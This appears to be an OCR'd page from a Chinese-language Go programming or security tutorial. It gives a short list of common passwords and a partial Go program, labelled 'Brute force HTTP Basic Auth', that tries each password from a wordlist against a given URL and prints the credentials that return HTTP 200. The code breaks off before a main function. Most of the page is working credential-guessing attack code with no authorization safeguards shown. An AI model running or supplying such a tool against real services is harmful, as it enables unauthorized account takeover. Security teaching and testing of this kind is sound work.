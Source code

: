 ```go
password
123456
qwerty
abc123
iloveyou
admin
passw0rd
```

将前面代码块中的列表保存为文本文件，每行有一个密码。名称并不重要，因为您提供了密码列表文件名作为命令行参数：

```go
package main 

import ( 
   "bufio" 
   "fmt" 
   "log" 
   "net/http" 
   "os" 
) 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force HTTP Basic Auth 

Passwords should be separated by newlines. 
URL should include protocol prefix. 

Usage: 
  ` + os.Args[0] + ` <username> <pwlistfile> <url> 

Example: 
  ` + os.Args[0] + ` admin passwords.txt https://www.test.com 
`) 
} 

func checkArgs() (string, string, string) { 
   if len(os.Args) != 4 { 
      log.Println("Incorrect number of arguments.") 
      printUsage() 
      os.Exit(1) 
   } 

   // Username, Password list filename, URL 
   return os.Args[1], os.Args[2], os.Args[3] 
} 

func testBasicAuth(url, username, password string, doneChannel chan bool) { 
   client := &http.Client{} 
   request, err := http.NewRequest("GET", url, nil) 
   request.SetBasicAuth(username, password) 

   response, err := client.Do(request) 
   if err != nil { 
      log.Fatal(err) 
   } 
   if response.StatusCode == 200 { 
      log.Printf("Success!\nUser: %s\nPassword: %s\n", username,   
         password) 
      os.Exit(0) 
    } 
    doneChannel <- true 
} 

```